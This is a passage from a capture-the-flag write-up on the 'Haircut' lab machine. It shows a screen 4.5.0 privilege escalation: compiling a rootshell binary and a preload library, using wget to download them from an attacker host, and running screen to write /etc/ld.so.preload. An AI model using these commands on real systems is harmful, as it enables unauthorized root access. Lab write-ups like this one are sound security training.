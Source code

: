        7 |     execvp("/bin/sh", NULL, NULL);
          |     ^~~~~~
    rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]



There are some warnings, but both binaries exist:



    root@kali# ls -l libhax.so rootshell
    -rwxrwx--- 1 root vboxsf 16136 Sep  3 22:23 libhax.so
    -rwxrwx--- 1 root vboxsf 16824 Sep  3 22:23 rootshell



I'll upload both of those to `/tmp` on Haircut:



    www-data@haircut:/tmp$ wget 10.10.14.15/libhax.so
    --2020-09-04 04:26:26--  http://10.10.14.15/libhax.so
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 16136 (16K) [application/octet-stream]
    Saving to: 'libhax.so'

    libhax.so           100%[===================>]  15.76K  --.-KB/s    in 0.02s   

    2020-09-04 04:26:26 (1013 KB/s) - 'libhax.so' saved [16136/16136]

    www-data@haircut:/tmp$ wget 10.10.14.15/rootshell
    --2020-09-04 04:26:30--  http://10.10.14.15/rootshell
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 16824 (16K) [application/octet-stream]
    Saving to: 'rootshell'

    rootshell           100%[===================>]  16.43K  --.-KB/s    in 0.02s   

    2020-09-04 04:26:30 (1.04 MB/s) - 'rootshell' saved [16824/16824]



Now to execute, I'll change into `/etc`, set the `umask`, and run
`screen` (making sure to get the right one):



    www-data@haircut:/tmp$ cd /etc/
    www-data@haircut:/etc$ umask 000
    www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 



At this point, `ld.so.preload` should have the reference to
`/tmp/libhax.so` (along with some other junk):



    www-data@haircut:/etc$ cat ld.so.preload
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
